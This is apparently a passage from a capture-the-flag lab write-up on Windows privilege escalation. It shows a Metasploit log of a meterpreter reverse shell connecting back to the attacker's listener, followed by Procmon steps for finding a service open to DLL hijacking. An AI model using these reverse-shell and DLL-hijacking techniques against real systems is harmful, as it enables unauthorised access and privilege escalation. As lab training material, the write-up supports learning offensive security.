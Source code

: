 !["program-startup.png"](files/program-startup.png)

Log off and log in again. We now have a meterpreter:

~~~
[*] Started reverse TCP handler on 10.9.**.**:4444 
[*] Sending stage (176195 bytes) to 10.10.242.238
[*] Meterpreter session 1 opened (10.9.**.**:4444 -> 10.10.242.238:49317) at 2020-05-19 14:27:59 +0200

meterpreter > getuid 
Server username: TCM-PC\user
~~~

# [Task 8] Service Escalation - DLL Hijacking

## #8.0 - Instructions

**Detection**

Windows VM

1. Open the Tools folder that is located on the desktop and then go the "Process Monitor" folder.
2. In reality, executables would be copied from the victim’s host over to the attacker’s host for analysis during run time. Alternatively, the same software can be installed on the attacker’s host for analysis, in case they can obtain it. To simulate this, right click on "Procmon.exe" and select ‘Run as administrator’ from the menu.
3. In procmon, select "filter".  From the left-most drop down menu, select ‘Process Name’.
4. In the input box on the same line type: "dllhijackservice.exe"
5. Make sure the line reads “Process Name is dllhijackservice.exe then Include” and click on the ‘Add’ button, then ‘Apply’ and lastly on ‘OK’.
6. Next, select from the left-most drop down menu ‘Result’.
7. In the input box on the same line type: `NAME NOT FOUND`
8. Make sure the line reads “Result is NAME NOT FOUND then Include” and click on the ‘Add’ button, then ‘Apply’ and lastly on ‘OK’.
9. Open command prompt and type: `sc start dllsvc`
